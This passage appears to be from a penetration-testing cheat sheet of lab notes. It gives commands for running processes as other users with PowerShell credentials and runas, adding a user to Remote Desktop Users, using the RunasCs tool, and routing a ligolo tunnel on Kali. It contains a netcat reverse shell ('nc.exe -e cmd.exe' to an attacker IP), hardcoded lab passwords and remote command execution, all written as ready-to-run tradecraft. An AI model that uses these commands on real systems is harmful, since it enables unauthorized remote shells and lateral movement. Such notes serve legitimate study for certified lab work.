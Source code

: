 ```
    s.close()
```

### run as different user - powershell

powershell
```
# 1
$username = "username"
$password = ConvertTo-SecureString "password" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $password)

Start-Process "exe to run" -Credential $credential

# 2
$password = ConvertTo-SecureString "i6yuT6tym@" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("damon", $password)
Enter-PSSession -ComputerName LEGACY -Credential $cred

# 3
$pass = ConvertTo-SecureString 'ThisPasswordShouldDo!@' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Administrator",
$pass)
Invoke-Command -Computer localhost -ScriptBlock {COMMAND TO RUN} -Credential $cred
```

add to remote desktop users group
```
Add-ADGroupMember -Identity "Remote Desktop Users" -Members damon

net localgroup 'Remote Desktop Users' damon /add
```

cmd
```
runas /env /profile /user:DVR4\Administrator "C:\temp\nc.exe -e cmd.exe 192.168.118.14 443" 
```

using the tool: https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1?source=post_page-----b95d3146cfe9--------------------------------
```
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "shell.exe"
```

### tunnel

##### ligolo

on kali
config route
```
sudo ip tuntap add user pinklii mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.91.0/24 dev ligolo

# local porf fowarding
sudo ip route add 240.0.0.1/32 dev ligolo

# see that it added
ip rout list                                                               
```
